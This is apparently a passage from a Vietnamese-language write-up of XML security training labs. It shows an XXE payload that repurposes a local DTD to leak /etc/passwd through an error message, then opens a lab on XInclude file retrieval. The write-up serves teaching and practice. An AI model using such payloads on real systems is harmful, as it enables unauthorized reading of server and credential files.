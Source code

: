 -Ta xây dựng payload như sau:

```bash
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///noneexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

-Sau khi gửi payload, ta nhận được thông báo lỗi chứa nội dung file "```/etc/passwd```", hoàn thành lab



## Lab: Exploiting XInclude to retrieve files

**END goals**: inject an XInclude statement to retrieve the contents of the /etc/passwd file.

- Quan sát request khi sử dụng checkstock feature:

![alt text](./img/lab8-1.png)

- Nhập giá trị "%" cho tham số productId:

![alt text](./img/lab8-2.png)
